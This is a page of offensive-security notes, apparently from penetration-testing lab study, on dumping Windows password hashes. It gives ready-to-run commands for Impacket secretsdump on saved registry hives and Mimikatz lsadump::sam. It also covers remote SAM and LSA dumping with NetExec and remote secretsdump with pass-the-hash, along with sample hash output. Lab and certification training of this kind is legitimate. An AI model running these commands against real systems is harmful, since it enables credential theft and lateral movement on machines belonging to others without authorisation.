 ## Hash Extraction

### Using Impacket secretsdump
```bash
# Extract hashes from saved hives
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# Example output format (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

### Alternative Tools
```bash
# pwdump (Windows)
pwdump.exe

# fgdump (Windows)
fgdump.exe

# Mimikatz
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Remote Hash Dumping

### Using NetExec (formerly CrackMapExec)
```bash
# Dump SAM hashes remotely
netexec smb 10.129.42.198 --local-auth -u bob -p password --sam

# Dump LSA secrets remotely
netexec smb 10.129.42.198 --local-auth -u bob -p password --lsa

# Dump both
netexec smb 10.129.42.198 --local-auth -u bob -p password --sam --lsa
```

### Using Impacket remotely
```bash
# Remote secretsdump
python3 secretsdump.py domain/user:password@10.129.42.198

# With hash (pass-the-hash)
python3 secretsdump.py domain/user@10.129.42.198 -hashes :nthash
```

